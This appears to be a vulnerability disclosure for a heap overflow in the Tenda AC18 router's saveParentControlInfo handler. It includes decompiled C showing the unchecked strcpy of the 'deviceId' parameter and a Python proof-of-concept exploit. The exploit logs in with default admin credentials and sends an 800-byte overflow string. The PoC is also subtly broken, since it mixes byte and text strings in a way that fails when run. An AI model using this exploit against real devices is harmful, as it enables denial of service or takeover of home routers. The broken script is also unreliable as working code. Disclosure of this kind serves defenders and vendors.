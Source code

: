 ## Tenda AC18 multiple heap overflow vulnerability

### * Version

V15.03.05.19_multi (ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)





### * Vulnerability Detail

In function saveParentControlInfo, the content obtained by the program from the parameter "deviceId" is passed to local_28, 
and then the local_28 is directly copied into the local_50 heap through the strcpy function.
There is no size check, so there is a heap overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void saveParentControlInfo(undefined4 param_1)

{
  int iVar1;
  undefined uVar2;
  bool bVar3;
  int local_398;
  char acStack916 [128];
  int aiStack788 [30];
  undefined4 local_29c;
  undefined2 local_298;
  char local_296 [2];
  undefined auStack660 [512];
  undefined auStack148 [64];
  undefined *local_54;
  void *local_50;
  undefined4 local_24;
  undefined4 local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  memset(auStack148,0,0x40);
  memset(auStack660,0,0x200);
  local_29c = 0;
  local_298 = 0;
  local_296[0] = '\0';
  local_18 = 0;
  local_1c = 0;
  local_14 = 0;
  memset(aiStack788,0,0x78);
  memset(acStack916,0,0x80);
  local_20 = 0;
  local_398 = 0;
  local_24 = 0;
  local_28 = (char *)FUN_0002ba8c(param_1,"deviceId",&DAT_000edd28);  //here
  local_2c = (char *)FUN_0002ba8c(param_1,"enable",&DAT_000edd28);
  local_30 = (char *)FUN_0002ba8c(param_1,"time",&DAT_000edd28);
  local_34 = (char *)FUN_0002ba8c(param_1,"url_enable",&DAT_000edd28);
  local_38 = (char *)FUN_0002ba8c(param_1,"urls",&DAT_000edd28);
  local_3c = (char *)FUN_0002ba8c(param_1,"day",&DAT_000edd28);
  local_40 = (char *)FUN_0002ba8c(param_1,"block",&DAT_000edd28);
  local_44 = FUN_0002ba8c(param_1,"connectType",&DAT_000edd28);
  local_48 = (char *)FUN_0002ba8c(param_1,"limit_type",&DAT_000eddc8);
  local_4c = (char *)FUN_0002ba8c(param_1,"deviceName",&DAT_000edd28);
  ...
  local_50 = malloc(0x254); //alloc memory
  memset(local_50,0,0x254); 
  strcpy((char *)((int)local_50 + 2),local_28); //here is overflow
  local_54 = (undefined *)malloc(0x254);
  memset(local_54,0,0x254);
  SetValue("parent.global.en",&DAT_000eddc8);
  SetValue("filter.url.en",&DAT_000eddc8);
  SetValue("filter.mac.en",&DAT_000eddc8);
  strcpy(local_54 + 2,local_28);  //here is overflow
  strcpy(local_54 + 0x22,local_30);
  ...
}
```

### * POC
```python
import requests


cmd  = b'deviceId=' + b'A' * 800 + '&enable=&time=&url_enable=&urls=&day=&block=&connectType=&limit_type='
cmd += b'&deviceName='


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/saveParentControlInfo/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
